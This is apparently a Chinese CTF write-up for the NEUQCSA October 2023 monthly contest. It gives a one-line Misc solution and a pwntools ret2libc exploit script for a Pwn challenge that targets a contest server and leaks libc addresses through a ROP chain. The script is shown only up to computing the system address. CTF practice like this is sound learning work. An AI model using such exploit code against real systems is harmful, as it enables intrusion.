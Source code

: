 ```yaml
---
title: "NEUQCSA-2023-10月赛题解"
categories: NEUQCSA
tag: Pwn
---
```

markdown出问题的话直接看链接：https://zcoi.github.io/blogs/CTF/monthgame2310/
# 解题情况
![](https://zcoi.github.io/blogs/CTF/monthgame2310/self1.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/self2.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/misc.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/web.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/pwn.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/cry.png)


# 解题思路
## Misc
### level1-Login
直接看html，发现base64加密的一串。直接解密就是flag



## PWN
### ret2libc
Q:请嗯造libc
A:我嗯造libc

```
from pwn import*
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
p=remote('8.130.110.158',2110)
 
func_addr=elf.got['write']
write_addr=elf.plt['write']
 
pop_rdi=0x4012a3
pop_rsi2=0x4012a1
ret=0x40101a
vuln=0x4011db
 
payload= b'a'*0x10+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadbeef)+p64(write_addr)+p64(vuln)
p.sendlineafter('voice :',payload)
p.recv()
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['write']
system_addr=base+libc.symbols['system']
```